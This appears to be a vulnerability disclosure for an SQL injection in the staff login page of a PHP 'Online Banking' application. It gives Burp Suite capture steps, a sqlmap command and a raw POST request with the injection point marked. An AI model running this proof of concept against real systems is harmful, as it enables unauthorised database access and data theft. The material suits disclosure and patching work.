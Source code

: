 # Online Banking SQL Injection
* `Description` => sql injection at `staff_login.php`
# Step to Reproduct
* `Staff Login` -> `Staff ID ` -> `Staff Password` -> `Login` -> `modify data` -> `Sqlmap`
# Exploit
* Input `Staff ID` and `Staff Password` -> `Login` 
![image](https://user-images.githubusercontent.com/79050415/159326849-427a43be-5e88-4535-ba60-7d41fe0906f1.png)
* Use Burp Suite capture request 
![image](https://user-images.githubusercontent.com/79050415/159327710-183afd91-1624-4733-88a7-491cca62fa8f.png)
* Then modify the data and save as `sqli.txt`
![image](https://user-images.githubusercontent.com/79050415/159327862-825f0250-9143-46ed-a5cb-c36d5ee29b3d.png)
* Scan `sqli.txt` on `Sqlmap`
```c
python3 sqlmap.py -r sqli.txt --batch --current-user
```
![image](https://user-images.githubusercontent.com/79050415/159328722-52415c05-ed4a-405b-ae9f-919692f58601.png)

# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/159329104-f6734379-6e0f-4344-a7a9-d4baa41d2e34.png)
* No filter `Staff ID ` and `Staff Password` when inserting data to database
# Information Disclosure
![image](https://user-images.githubusercontent.com/79050415/159337062-c4045649-7665-4691-9a51-3d41d502d14e.png)

# POC
`Injection Point`
```c
staff_id=*&password=hhhhhhhhhh&staff_login-btn=LOGIN
```
* `Request`
```c
POST /Online-Banking/staff_login.php HTTP/1.1
Host: 192.168.1.101:8080
Content-Length: 57
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.101:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101:8080/Online-Banking/staff_login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=jpkpok9b1tiholm7srir1b6mev
Connection: close

staff_id=*&password=hhhhhhhhhh&staff_login-btn=LOGIN
```
